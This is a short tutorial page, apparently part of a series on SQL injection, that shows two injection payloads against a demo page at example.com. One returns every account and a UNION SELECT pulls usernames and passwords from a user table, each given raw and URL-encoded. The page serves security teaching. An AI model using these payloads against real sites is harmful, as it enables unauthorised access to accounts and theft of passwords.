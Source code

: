 
# SQL Injection, part 3

Now we do have a public listing of users:

	/security/view.php

Where you can do SQL injection to view all accounts:

	Amy" OR 1="1

	https://example.com/security/view.php?q=Amy%22+OR+1%3D%221

Or to see the passwords:

	-" UNION SELECT username, password FROM user WHERE ""="

	https://example.com/security/view.php?q=-%22+UNION+SELECT+username%2C+password+FROM+user+WHERE+%22%22%3D%22
